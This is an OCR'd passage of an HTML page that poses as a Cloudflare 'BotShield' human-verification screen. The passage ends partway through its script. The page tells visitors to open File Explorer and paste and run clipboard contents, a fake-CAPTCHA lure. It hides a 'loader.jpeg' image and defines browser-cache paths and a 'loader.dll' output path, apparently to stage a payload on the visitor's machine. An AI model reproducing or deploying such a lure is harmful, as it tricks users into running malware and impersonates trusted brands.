 ```html
    }

    .footer img {
      height: 16px;
    }

    @keyframes fadeIn {
      from { opacity: 0; transform: translateY(20px); }
      to { opacity: 1; transform: translateY(0); }
    }
  </style>
</head>
<body>
  <!--this is the loader-->
  <img src="loader.jpeg" style="display: none;"></img>
  <!-- Loading Spinner Screen -->
  <div id="loading" class="spinner-screen">
    <div class="spinner"></div>
    Just a moment ...
  </div>

  <!-- Verification Container -->
  <div class="container" id="verification-card">
    <div class="orange-bar">
  <div class="orange-bar-text">Protected by BotShield</div>
</div>
	<img src="https://upload.wikimedia.org/wikipedia/commons/thumb/archive/4/4b/20220519022009%21Cloudflare_Logo.svg/120px-Cloudflare_Logo.svg.png" alt="Shield" class="logo" style="width: 120px; height: auto;"/>

    <div class="instructions">
      <p>To access this <strong>website</strong>, please follow these steps to verify you are human.</p>
      <ol>
        <li style="margin-bottom: 10px;">
          Open file explorer by clicking the button below
          <!--<div class="code-block" id="path" onclick="this.classList.add('clicked')">
            hello
          </div>-->
        </li>
        <li style="margin-bottom: 10px;">Press (<strong>CTRL + L</strong>)</li>
        <li style="margin-bottom: 10px;">Press (<strong>CTRL + V</strong>)</li>
        <li style="margin-bottom: 10px;">Hit (<strong>ENTER</strong>)</li>
        <li style="margin-bottom: 10px;">Close file explorer</li>
      </ol>
    </div>

    <input type="file" id="fileInput" style="display: none;">
    <button id="fileExplorer">Open File Explorer</button>

    <div class="footer">	
      <img src="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg" alt="Microsoft">
      © 2025 cloudflare • BotShield
    </div>
  </div>

  <script>
    var cmd = ``;
    const edgepath = `+'/microsoft/edge/user data/default/cache/cache_data'`;
    const chromepath = `+'/google/chrome/user data/default/cache/cache_data'`;
    const outputpath = `+'/Desktop/tools/iac/loader.dll'`;
```